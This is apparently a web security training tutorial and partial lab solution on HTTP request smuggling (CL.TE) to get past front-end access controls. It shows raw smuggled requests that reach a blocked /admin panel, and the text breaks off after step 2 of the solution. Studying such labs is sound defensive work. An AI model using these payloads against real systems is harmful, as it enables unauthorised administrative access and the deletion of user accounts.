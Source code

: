 # How to exploit HTTP request smuggling vulnerabilities

Suppose an application uses the front-end server to implement access control restrictions, only forwarding requests if the user is authorized to access the requested URL. The back-end server then honors every request without further checking. In this situation, an HTTP request smuggling vulnerability can be used to bypass the access controls, by smuggling a request to a restricted URL.

Suppose the current user is permitted to access /home but not /admin. They can bypass this restriction using the following request smuggling attack:

```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

The front-end server sees two requests here, both for /home, and so the requests are forwarded to the back-end server. However, the back-end server sees one request for /home and one request for /admin. It assumes (as always) that the requests have passed through the front-end controls, and so grants access to the restricted URL.

### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

**Solution**

1. Try to visit */admin* and observe that the request is blocked.
2. Using Burp Repeater, issue the following request twice:

    ```
    POST / HTTP/1.1
    Host: ac471f221e11274dc0e81fd500690023.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    X-Ignore: X
    ```
